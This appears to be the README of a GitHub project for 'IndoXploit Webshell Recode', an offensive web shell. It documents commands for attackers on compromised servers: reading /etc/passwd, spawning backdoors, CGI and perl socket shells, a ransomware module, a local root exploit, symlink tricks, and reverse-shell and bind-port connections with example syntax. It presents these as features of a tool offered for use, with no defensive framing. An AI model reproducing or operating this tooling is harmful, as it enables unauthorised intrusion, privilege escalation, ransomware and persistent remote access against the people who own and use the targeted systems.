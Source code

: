 ## IndoXploit-Shell 
<pre>
===================================================================================================
                                    IndoXploit Webshell Recode
===================================================================================================

[+] Author: unknown
[+] Mail: orangrandom[at]proton.me
[+] Copyright © 2022 by - Flux10n

===================================================================================================
</pre>

## Command

- <b><i>Read File</i></b>
```
rf [filenane]
rf /etc/passwd
```

- <b><i>Spawn File</i></b>
```
spawn webconsole (execute command backdoor)
spawn cgitelnet1 (cgitelnet shell 1)
spawn cgitelnet2 (cgitelnet shell 2)
spawn cgipy (cgi python)
spawn soc (socket perl)
spawn rans (ransomware)
spawn adminer (adminer databese)
spawn LRE (local root exploit)
spawn fm (file manager)
spawn acs (auto create shell)
phpinfo (file system info)
```

- <b><i>Jumping</i></b>
```
Usage: jumping
```

- <b><i>Spawn File</i></b>
```
Usage: idxconfig
```

- <b><i>Spawn File</i></b>
```
Usage: symlink
```

- <b><i>Krdp</i></b>
```
Usage: krdp
```

- <b><i>Logout From Shell</i></b>
```
Usage: logout
```

- <b><i>Kill Backdoor</i></b>
```
Usage: killme
```

- <b><i>Reverse Shell [Backconnect]</i></b>
```
usage: rvr bc [IP] [PORT] [TYPE]
```
Example:
```
rvr bc 127.0.0.1 1337 bash
rvr bc 127.0.0.1 1337 perl
```

- <b><i>Bind Port</i></b>
```
usage: rvr bp [PORT] [TYPE]
```
Example:
```
rvr bp 1337 perl
```

